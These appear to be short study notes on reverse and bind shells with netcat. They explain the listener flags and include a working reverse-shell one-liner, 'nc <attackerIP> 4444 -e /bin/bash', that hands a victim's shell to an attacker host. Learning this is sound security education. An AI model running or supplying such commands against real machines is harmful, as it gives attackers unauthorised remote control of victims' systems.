

shell:access to a machine
Reverse shell:when victim connects to us
Bind Shell:When we connect to victim
to listen using netcat:
#nc -lvp 4444
-l:listen
-v:verbose
-p:listening on which port
to connect to listening port
#nc <attackerIP> 4444 -e /bin/bash
-e:establish which shell
/bin/bash:interpreter offered by victim if victim is linux
would be cmd.exe if victim was windows